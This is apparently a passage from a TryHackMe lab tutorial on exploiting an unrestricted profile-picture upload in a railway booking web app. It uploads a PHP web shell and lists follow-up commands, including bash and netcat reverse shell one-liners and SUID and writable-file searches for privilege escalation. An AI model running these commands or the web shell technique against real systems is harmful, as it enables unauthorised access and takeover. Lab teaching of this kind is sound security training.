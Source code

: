 ```javascript
```


The above script, when accessed, displays an input field. Whatever is entered in this input field is then run against the underlying operating system using the `system()` PHP function, and the output is displayed to the user. This is the perfect file to upload to the vulnerable rail system reservation application. The vulnerability is surrounding the upload of a new profile image. So, to exploit it, we navigate to the profile picture page:


 ![Railway profile page](https://tryhackme-images.s3.amazonaws.com/user-uploads/6228f0d4ca8e57005149c3e3/room-content/6228f0d4ca8e57005149c3e3-1728053142390.png)

Instead of a new profile picture, we can upload our malicious PHP script and update our profile:


 ![Profile picture uploaded](https://tryhackme-images.s3.amazonaws.com/user-uploads/6228f0d4ca8e57005149c3e3/room-content/6228f0d4ca8e57005149c3e3-1728053158718.png)

In the case of this application, the RCE is possible through unrestricted file upload. Once this "profile picture" is uploaded and updated, it is stored in the `/admin/assets/img/profile/` directory. The file can then be accessed directly via `http://<ip-address-or-localhost>/<projectname>/admin/assets/img/profile/shell.php`. When this is accessed, we can then see the malicious code in action:


 ![Malicious code in action](https://tryhackme-images.s3.amazonaws.com/user-uploads/6228f0d4ca8e57005149c3e3/room-content/6228f0d4ca8e57005149c3e3-1728053358466.png) \n 

Now, we can run commands directly against the operating system using this bar, and the output will be displayed. For example, running the command `pwd` now returns the following:


 ![Command being run](https://tryhackme-images.s3.amazonaws.com/user-uploads/6228f0d4ca8e57005149c3e3/room-content/6228f0d4ca8e57005149c3e3-1728053358453.png)

## Making the Most of It

Once the vulnerability has been exploited and you now have access to the operating system via a web shell, there are many next steps you could take depending on \*\*a)\*\*what your goal is and \*\*b)\*\*what misconfigurations are present on the system, which will determine exactly what we can do. Here are some examples of commands you could run once you have gained access and why you might run them (if the system is running on a Linux OS like our example target system): \n 

| **Command** | **Use** |
|----|----|
| ls | Will give you an idea of what files/directories surround you |
| pwd | Will give you an idea of where in the system you are |
| whoami | Will let you know who you are in the system |
| hostname | The system name and potentially its role in the network |
| uname -a | Will give you some system information like the OS, kernel version, and more |
| id | If the current user is assigned to any groups |
| ifconfig | Allows you to understand the system's network setup |
| bash -i >& /dev/tcp/<your-ip>/<port> 0>&1 | A command used to begin a reverse shell via bash |
| nc -e /bin/sh <your-ip> <port> | A command used to begin a reverse shell via Netcat |
| find / -perm -4000 -type f 2>/dev/null | Finds SUID (Set User ID) files, useful in privilege escalation attempts as it can sometimes be leveraged to execute binary with privileges of its owner (which is often root) |
| find / -writable -type  f 2>/dev/null \| grep -v "/proc/" | Also helpful in privilege escalation attempts used to find files with writable permissions \n  |

